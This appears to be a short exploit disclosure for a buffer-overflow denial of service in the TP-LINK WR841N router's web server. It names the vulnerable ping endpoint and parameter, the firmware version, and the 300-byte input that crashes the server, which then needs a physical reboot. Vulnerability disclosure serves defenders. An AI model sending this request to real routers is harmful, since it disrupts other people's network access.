 ## Exploit Title: TP-LINK WR841N - Buffer Overflow DOS (Denial of Service)

- Date: 04/28/2024

- Exploit Author: Van Lam Nguyen

- Facebook: fb.com/vanlam1412

- Vendor Homepage: [Tp-Link](http://www.tp-link.com)

- Version: TP-LINK WR841N 3.16.9 Build 160721 Rel.51793n

- Hardware Version: WR841N v11 00000000

- Tested on: Windows

- CVE : N/A

## Overview

- There exist a buffer overflow vulnerability in TP-LINK WR841N router that can allow an attacker to crash the web server running on the router by sending a crafted request
  To bring back the http (webserver), a user must physically reboot the route.

## Proof of Concept (Using Burp Suite)

- GET request to ping service, made an unauthorized request to /userRpm/PingIframeRpm.htm?ping_addr= , Sending 300 bytes of A’s to limited stack

- nmap 192.168.35.1 -p 80 80/tcp closed http

![](https://www3.0zz0.com/2024/08/10/19/692309672.jpg)
![](https://www3.0zz0.com/2024/08/18/09/973957328.jpg)
